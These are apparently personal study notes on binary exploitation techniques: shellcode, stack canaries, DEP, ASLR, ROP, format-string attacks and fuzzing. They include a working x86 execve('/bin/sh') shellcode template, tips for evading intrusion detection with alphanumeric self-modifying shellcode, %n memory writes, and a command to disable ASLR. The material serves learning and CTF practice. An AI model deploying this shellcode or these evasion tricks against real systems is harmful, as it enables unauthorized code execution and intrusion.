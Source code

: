 # Common Techniques
These are many common techniques used in different reverse engineering problems.
## Binary Patching
- https://materials.rangeforce.com/tutorial/2020/04/12/Patching-Binaries/
- can be done easily in a decompiler like ida or ghidra
## Command Line Injection
  - changing system file paths
## Shellcode
  - execve(sh, argv, envp): executes the shell
    - sh: is the file
    - argv: multiple argument vector
    - envp: environment variable vector
  - vector in C is ended with NULL to tell how many items are in the vector
  -  don't `use mov eax, 0` don't want a null byte in the payload
  -  al is the lowest byte of eax
  -  envp will be the second element of argv
  -  if execve is blocked there are plenty of other system calls that can be used
  -  write concise shellcode because ids systems will block anything too long
     -  use the stack
     -  use `xor`
     -  use `cbw` and its variant
     -  staging shellcode in environment variables
     -  leverage context 
        -  what is already in registers
  - if you are only using alphanumeric chars
    - construct the real shellcode on the stack at runtime
      - this technique is known as self modifying shellcode
    - this will easily fool ids systems
    - http://phrack.org/issues/57/15.html#article
    - ex.
        ```
        movw $0, %ax   ; 0x66 0xb8 0x00, 0x00, 0x00 (not allowed)
        ->
        andw $0x454e, %ax 
        andw $0x3a31, %ax
        ```
  - it is possible to write exploits that are system blind
    - one technique is opening emulators for each architecture and brute force the byte combinations
  -  useful template for shellcode
``` 
#include <sys/syscall.h> 
#define STRING  "/bin/sh"
#define STRLEN  7
#define ARGV    (STRLEN+1)
#define ENVP    (ARGV+4)

.intel_syntax noprefix
.text

.globl main
.type  main, @function

main:
  jmp     calladdr

popladdr:
  pop    esi                    /* esi points to STRING */
  mov    [ARGV+esi],esi         /* set up argv[0] pointer to pathname */
  xor    eax,eax                /* get a 32-bit zero value */
  mov    [STRLEN + esi],al      /* null-terminate our string */
  mov    [ENVP + esi], eax      /* set up null envp */

  mov    al,SYS_execve          /* syscall number */
  mov    ebx,esi                /* arg 1: string pathname */
  lea    ecx,[ARGV + esi]       /* arg 2: argv */
  lea    edx,[ENVP + esi]       /* arg 3: envp */
  int    0x80                   /* execve("/bin/sh", ["/bin/sh", NULL], [NULL]) */

  xor    ebx,ebx                /* arg 1: 0 */
  mov    eax,ebx
  inc    eax                    /* exit(0) */
  /* mov+inc to avoid null byte */
  int    0x80                   /* invoke syscall */

calladdr:
  call    popladdr
  .string STRING 
  ```
  - can inject shellcode through stack, env variables, file names, and arguments

## Security Protections
- nx being disabled means that memory spaces such as the stack are executable

## Stack Canary
- places a random value on stack to check integrity of ra
- gs: thread local storage
  - canary chosen from here
- if using two strcpy's in a row and switching the arguments, check for overwriting the second strcpy's arguments


## DEP 
- Data Execution Prevention 
- it is NX or X^W
- does not let you execute code so cannot inject shellcode
  
## ASLR
- Address Space Layout Randomization (ASLR, PIE)
- `cat /proc/sys/kernel/randomize_va_space` - > 2
  - change it to zero ti disable
- `./check`
- randomized segments but offsets in each segment are the same


## ROP
- Can get around all the protections if can leak a specific address
- OneGadget can be very useful


## String Formatted Attacks
- how does printf know of #arguments passed?
- how do we access the arguments in the function
- adding an extra argument to printf
  - works fine 
  - having one less argument will look at one value above in the stack
- a variadic function
  - allows for a variable number of arguments
  - $ specifier moves up the argument chain
  - %n will used to write to an address
  - %10d print an int on 10-space word
  - %hhn lets you write you write a smaller amount
- libc function address are figured out at runtime using plt
- can print got (global offset table)

## Fuzzing and Symbolic Execution
- symbolic execution can be very slow
- fuzzing is preferred
  - AFL is a good tool for fuzzing 
    - made with heuristics to be very efficient
    - expecting binaries
  - Radasma: syntax-aware fuzzer
  - Cross-fuzz: function syntax for Javascrpt
  - langfuzz: fuzzing program languages
  - Driller/GYSM: fuzzing-symbolic execution
  - https://tc.gts3.org/cs6265/tut/tut10-01-fuzzing.html


